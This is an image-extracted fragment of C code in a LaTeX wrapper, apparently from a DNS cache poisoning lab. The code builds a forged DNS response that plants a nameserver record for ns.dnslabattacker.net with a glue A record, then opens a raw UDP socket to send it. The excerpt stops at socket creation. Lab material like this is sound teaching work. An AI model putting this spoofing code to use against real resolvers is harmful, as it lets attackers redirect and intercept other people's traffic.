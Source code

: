 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{verbatim}
    char *nsname=(buffer +sizeof(struct ipheader)+sizeof(struct udpheader)+sizeof(struct dnsheader)+sizeof(struct dataEnd)+length+sizeof(struct ansEnd)+anslength+addrlen+sizeof(struct nsEnd)+nslength);

    strcpy(nsname,"\2ns\16dnslabattacker\3net"); //Provides resolution to the domain
    int nsnamelen = strlen(nsname)+1;

//add the additional report here
    char *ar=(buffer +sizeof(struct ipheader)+sizeof(struct udpheader)+sizeof(struct dnsheader)+sizeof(struct dataEnd)+length+sizeof(struct ansEnd)+anslength+addrlen+sizeof(struct nsEnd)+nslength+nsnamelen);
    strcpy(ar,"\2ns\16dnslabattacker\3net"); //IP Address (A record) of nameserver
    int arlength = strlen(ar)+1;
    struct ansEnd* arend = (struct ansEnd*)(ar + arlength);
    arend->type = htons(1);
    arend->class=htons(1);
    arend->ttl_l=htons(0x00);
    arend->ttl_h=htons(0xD0);
    arend->datalen=htons(4);
    char *araddr=(buffer +sizeof(struct ipheader)+sizeof(struct udpheader)+sizeof(struct dnsheader)+sizeof(struct dataEnd)+length+sizeof(struct ansEnd)+anslength+addrlen+sizeof(struct nsEnd)+nslength+nsnamelen+arlength+sizeof(struct ansEnd));

    strcpy(araddr,"\1\2\3\4"); //IP Address for resource
    int araddrlen = strlen(araddr);


/////////////////////////////////////////////////////////////////////
//
// DNS format, relate to the lab, you need to change them, end
//
//////////////////////////////////////////////////////////////////////

    /*************************************************************************************
    Construction of the packet is done.
    now focus on how to do the settings and send the packet we have composed out
    ***************************************************************************************/
    // Source and destination addresses: IP and port

    struct sockaddr_in sin, din;
    int one = 1;
    const int *val = &one;
//while(1){

    //dns->response_id=rand(); // transaction ID for the query packet, use random #
    // Create a raw socket with UDP protocol

    sd = socket(PF_INET, SOCK_RAW, IPPROTO_UDP);


    if(sd<0 ) // if socket fails to be created
        printf("socket error\n");

    // The source is redundant, may be used later if needed
    // The address family


\end{verbatim}
\end{document}
